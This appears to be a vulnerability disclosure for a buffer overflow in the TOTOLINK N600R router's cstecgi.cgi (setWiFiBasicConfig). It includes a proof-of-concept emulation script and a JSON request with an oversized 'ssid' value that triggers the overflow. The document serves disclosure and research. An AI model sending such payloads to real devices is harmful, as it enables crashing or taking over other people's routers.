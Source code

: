 # Bug Report: Buffer Overflow in TOTOLINK N600R Router
A buffer overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Buffer Overflow

## Description:
The vulnerable code within the setWiFiBasicConfig function in cstecgi.cgi. It extract the `ssid` parameter into `v10` and pass it into `strncpy` function while the string copy size is also derived from the `ssid` parameter by `v23 = strlen(v10)` . When `ssid` is specified with excessive data (>36), the buffer overflow occurs.

![alt text](image-2.png)

![alt text](image-3.png)

![alt text](image-4.png)

## poc
We set a breakpoint before the strcpy call and examined the memory state both before and after the out-of-bounds write. The memory dump clearly demonstrates that a buffer overflow occurred.
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```bash
./sub_41E0C0.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi_41E0C0.cgi
```

### sub_41E0C0.sh
```bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_41E0C0.cgi  < sub_41E0C0.json
```
### sub_41E0C0.json
```json
{
        "topicurl" : "UploadCustomModule/setWiFiBasicConfig",
        "ssid" : "1111111111111111111111111111111111111111111111111111111111111llllllllllllllllllllabcdDOIT"
}
```